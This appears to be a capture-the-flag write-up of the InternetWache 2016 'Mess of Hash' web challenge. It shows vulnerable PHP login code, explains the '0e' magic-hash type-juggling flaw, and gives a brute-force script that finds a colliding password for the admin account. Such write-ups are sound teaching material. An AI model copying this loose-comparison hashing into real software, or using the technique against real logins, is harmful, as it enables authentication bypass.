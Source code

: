 +++
authors = "simonvik"
categories = [ "writeups" ]
date = "2016-02-21T20:00:12+01:00"
description = ""
title = "InternetWache 2016 Mess of Hash (Web 50) "

+++

# Problem
> Description: Students have developed a new admin login technique. I doubt that
it's secure, but the hash isn't crackable. I don't know where the problem is...

(web50, solved by 170)

Attachment: web50.zip

Service: https://mess-of-hash.ctf.internetwache.org/

# Solution

We unpack the attachment and get a README.txt containing:

~~~PHP
<?php

$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}
~~~

We can directly see that the hash assigned to `$admin_pw` looks interesting.

From knowing PHP we know that it can cast strings containing numbers to floats and `0e408306536730731920197920342119` is a valid number.

We also know that the precision of floats in php is limited.

We can now assume that all we need to do is to generate a new hash with the format of 0e.... that is equal the float of `0e408306536730731920197920342119`.

I hacked together the following small script that bruteforces a new password where `(float) hash == (float) 0e408306536730731920197920342119`

~~~PHP
<?php

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}

function randomPassword() {
    $alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890';
    $pass = array(); //remember to declare $pass as an array
    $alphaLength = strlen($alphabet) - 1; //put the length -1 in cache
    for ($i = 0; $i < 8; $i++) {
        $n = rand(0, $alphaLength);
        $pass[] = $alphabet[$n];
    }
    return implode($pass); //turn the array into a string
}

while(true){
	$pass = randomPassword();

	if(myhash($pass) == "0e408306536730731920197920342119"){
		echo myhash($pass), "\n";
		echo $pass, "\n";
	}
}
~~~


After a few minutes we get a new password and hash.

The first password we get is `FbTaQN1k`:

And the resulting hash is: `0e137008612571603628970211017933`.

We can now log into https://mess-of-hash.ctf.internetwache.org/ with `pr0_adm1n:FbTaQN1k`.

And we now have the flag : **IW{T4K3_C4RE_AND_C0MP4R3}**.
